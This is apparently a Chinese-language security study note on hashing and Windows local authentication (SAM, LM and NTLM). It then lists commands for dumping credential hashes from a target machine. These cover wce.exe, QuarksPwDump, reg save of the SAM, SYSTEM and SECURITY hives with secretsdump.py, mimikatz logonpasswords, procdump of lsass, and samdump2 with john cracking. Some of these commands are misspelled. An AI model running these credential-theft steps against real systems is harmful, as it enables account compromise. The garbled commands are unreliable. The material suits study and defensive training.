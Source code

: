 # hash哈希

> 散列-哈希，就是把任意长度的输入，通过散列算法，变换成固定长度的输出，该输出就是散列值。
>
> 这种转换是一种压缩映射，也就是，散列值的空间通常远小于输入的空间，**不同的输入可能会散列成相同的输出**，所以不可能从散列值来唯一的确定输入值。简单的说就是一种将任意长度的消息压缩到某一固定长度的消息摘要的函数。

‍

##### 常见hash

MD4，基于32位操作数的位操来实现的

MD5  16/32位，比MD4更复杂，并且速度慢，但更安全

SHA-1及其他：**对**​**长度小于264的输入****，**​**产生160bit****，**​**抗穷举行更好**

‍

##### hash算法应用

1. 文件校验：奇偶校验和CRC校验，但没有抗数据篡改的能力，MD5算法是目前应用最广泛的一种文件完整性校验和的算法
2. 数字签名：对hash值，又称“数字摘要”进行数字签名，在统计上可以认为与对文件本身进行数字签名是等效的
3. 基于口令的加密

## Windows本地认证

### 本地认证

‍

> 	Windows系统登陆账号存储位置:**C:\Windows\System32\config\SAM**
>
> 在Windows系统中，对用户账户的安全管理采用了SAM(Security Account Manager，安全账号管理)机制，用户  
> 账户以及密码经过Hash加密之后，都保存在SAM数据库中。
>
> 	SAM两种加密方式LM加密和NTLM加密
>
> 对于Windows2K3之前，包括win2K3系统，采用的是LM口令散列，对于Windows2K3之后的系统，采用的是NTLM口令散列。LM和NTLM都是基于Hash加密，LM口令散列的安全性相对比较差。尽管现在已很少有人使用  
> Windows2k之前的老版本系统，但为了保持向后兼容性，默认情况下，系统仍会将用户密码分别用这两种机制加密  
> 后存放在SAM数据库里。

​​![image](assets/image-20241107091540-cs3sfam.png)​​

​![image](assets/image-20241107091615-xvrt5qc.png)​

​![image](assets/image-20241107091652-d09sqxy.png)​

​![image](assets/image-20241107091716-6avnc6n.png)​

​![image](assets/image-20241107091819-2zgra5p.png)​

​![image](assets/image-20241107091918-24d15ky.png)​

​![image](assets/image-20241107092646-bebqbm2.png)​

​![image](assets/image-20241107092743-9bsluoo.png)​

​​

‍

### hash获取

##### wce.exe（system权限）

注意:要在system权限下获取hash。如果是普通用户权限，要提权后获取

将文件上传到目标机-》打开cmd运行该文件

​![image](assets/image-20241107100316-1mz3rvr.png)​

##### QuarksPWDump获取hash

打开cmd运行

```bash
QuarksPwDump.exe -h  查看参数设置
-dhl  获取本地hash
-dhdc 获取域内hash
-dhd  导出域控哈希值 必须指定NTDS文件
-db   导出bitocker信息，必须指定NTDS文件
-nt   导出ntds文件
-hist 导出历史信息，可选项
-t    导出类型可选默认导出为John类型。
-o    导出文件到本地
```

​![image](assets/image-20241107095541-hejrwtc.png)​

###### 栗子

```bash
QuarksPwDump.exe -dhl -o 1.txt
```

​![image](assets/image-20241107100437-k2rhk9l.png)​

‍

##### 常规免杀方式获取hash

导出文件

```bash
reg save HKLM\SYSTEM sys.hiv
reg save HKLM\SAM sam.hiv
reg save hklm\SECURITY security.hiv
secretsdump.py -sam sam.hiv -security security.hiv -system sys.hiv LOCAL
```

‍

mimikatz猕猴桃

privilege::debug     //进入debug模式

sekurlsa::logonpasswords//获取密码

‍

procdump

-accepteula -ma laass.exe las

 log "sekurlas::minidump lsass.dump" "sekurlsa::logonpasswords full"

‍

‍

kali自带的samdump2

samdump2 system.hiv sam.hive > hash.txt

john -format=NT hash.txt

‍

‍

​![image](assets/image-20241107092935-90652u4.png)​

​![image](assets/image-20241107093749-ywhr43e.png)​

​![image](assets/image-20241107093817-hije8oo.png)​

​![image](assets/image-20241107093836-228jwym.png)​

‍

​![image](assets/image-20241107094000-9ctw1vb.png)​

​![image](assets/image-20241107093940-3qi6zw8.png)​

‍
